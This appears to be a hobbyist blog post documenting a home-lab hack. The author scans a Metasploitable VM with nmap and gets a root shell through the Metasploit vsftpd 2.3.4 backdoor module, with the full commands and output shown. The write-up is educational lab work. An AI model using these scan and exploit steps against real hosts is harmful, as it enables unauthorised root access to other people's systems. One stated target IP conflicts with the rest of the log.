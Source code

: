 # Let's hack stuff!

First and fore most, long time no see. The last couple of months flew by and I haven't really been in the mood of writing. 
Now I stated experimenting with Kali again and figured I might as well document it.

## The environment

I have set up a Kali VM - the atacker - and a Metasploitable VM - the target - in VirtualBox, that I will be using in this post. 
Kali is a Linux distro designed for hacking/pentesting and is loaded with tools. Metasploitable is an Ubuntu VM loaded with poorly 
configured applications that are easily hackable. I will post installation instructions in a future post, but most of it is dead simple and easily found online already. 

## The hack

This is a very simple exploit and took about ten minutes. The write up took significantly longer!

### Scanning the network

So after I have fired up my VMs I open the attacking machine and start a terminal. The first thing I want to do is find out where my target is so I 
turn to `nmap` and run (result edited):

    # nmap  192.168.56.0/24

    Nmap scan report for 192.168.56.103
    Host is up (0.00013s latency).
    Not shown: 977 closed ports
    PORT     STATE SERVICE
    21/tcp   open  ftp
    22/tcp   open  ssh
    23/tcp   open  telnet
    25/tcp   open  smtp
    53/tcp   open  domain
    80/tcp   open  http
    111/tcp  open  rpcbind
    139/tcp  open  netbios-ssn
    445/tcp  open  microsoft-ds
    512/tcp  open  exec
    513/tcp  open  login
    514/tcp  open  shell
    1099/tcp open  rmiregistry
    1524/tcp open  ingreslock
    2049/tcp open  nfs
    2121/tcp open  ccproxy-ftp
    3306/tcp open  mysql
    5432/tcp open  postgresql
    5900/tcp open  vnc
    6000/tcp open  X11
    6667/tcp open  irc
    8009/tcp open  ajp13
    8180/tcp open  unknown
 
I can identify the target by the loads of open ports. This is a virtual network so there are no other machines on the network, this makes finding
the target easier than it would be in the wild. In a real life scenario you would have to do some research in order to know what machine you should target.

Now that we have our target, `192.168.56.104` we can do a more advanced scan:

    # nmap -sV -O -p1-65535 192.168.56.103 > target
    
This will scan all the ports (`-p1-65535`) of particular machine, it will also try to detect the OS (`-O`) and further more it will try
to identify what versions the software listening to each open port are running (`-sV`). I save this to a file called `target` since I like to
reference the scan later on.

In this excercise I am only interested in the fisrt service running on port 21, the second scan returns the following:

    21/tcp open  ftp     vsftpd 2.3.4

We now have a bit more information about our target. We know the application name and version number, this will help us find an exploit.

### Finding an exploit

There are two things we can do now, either scan the machine with a vulnerability scanner or search for an exploit manually. 
I decided to do a quick manual search and launch a vulnerability scanner if I didn't get quick results. 

Metasploit is our friend here so I launch it with `#msfconsole` and do the following:

    msf > search vsftpd

    Matching Modules
    ================

       Name                                  Disclosure Date  Rank       Description
       ----                                  ---------------  ----       -----------
       exploit/unix/ftp/vsftpd_234_backdoor  2011-07-03       excellent  VSFTPD v2.3.4 Backdoor Command Execution

Jackpot! We found a vulnerability with an excellent rating that affects the exact version our target is running. 
Let's find out more, again the output is edited for brevity.

    msf> info exploit/unix/ftp/vsftpd_234_backdoor 
    
    Name: VSFTPD v2.3.4 Backdoor Command Execution
    Module: exploit/unix/ftp/vsftpd_234_backdoor
    Platform: Unix
    Privileged: Yes
    License: Metasploit Framework License (BSD)
    Rank: Excellent
    Disclosed: 2011-07-03

    Description:
      This module exploits a malicious backdoor that was added to the 
      VSFTPD download archive. This backdoor was introduced into the 
      vsftpd-2.3.4.tar.gz archive between June 30th 2011 and July 1st 2011 
      according to the most recent information available. This backdoor 
      was removed on July 3rd 2011.

This sounds really juicy so I will try it out. First I pick the exploit and show all options for it:

    msf > use exploit/unix/ftp/vsftpd_234_backdoor 
    msf exploit(vsftpd_234_backdoor) > show options

    Module options (exploit/unix/ftp/vsftpd_234_backdoor):

       Name   Current Setting  Required  Description
       ----   ---------------  --------  -----------
       RHOST                   yes       The target address
       RPORT  21               yes       The target port


    Exploit target:

       Id  Name
       --  ----
       0   Automatic

This tells me that I need to set the target, denoted by RHOST. I set it and show all available payloads:

    msf exploit(vsftpd_234_backdoor) > set RHOST 192.168.56.103
    RHOST => 192.168.56.103
    msf exploit(vsftpd_234_backdoor) > show payloads

    Compatible Payloads
    ===================

       Name               Disclosure Date  Rank    Description
       ----               ---------------  ----    -----------
       cmd/unix/interact                   normal  Unix Command, Interact with Established Connection

There is only a single payload available so I select that and launch my attack!


    msf exploit(vsftpd_234_backdoor) > set payload cmd/unix/interact 
    payload => cmd/unix/interact
    msf exploit(vsftpd_234_backdoor) > exploit

    [*] Banner: 220 (vsFTPd 2.3.4)
    [*] USER: 331 Please specify the password.
    [+] Backdoor service has been spawned, handling...
    [+] UID: uid=0(root) gid=0(root)
    [*] Found shell.
    [*] Command shell session 1 opened (192.168.56.104:33322 -> 192.168.56.103:6200) at 2014-11-12 13:45:57 -0500

Succes we have a shell, and as an added bonus:

    whoami
    root
    
### Summary

This exploit was a very simple challenge and I could execute it with very simple tools. 
Hopefully the next service (SSH running on port 22) will be a little tougher.
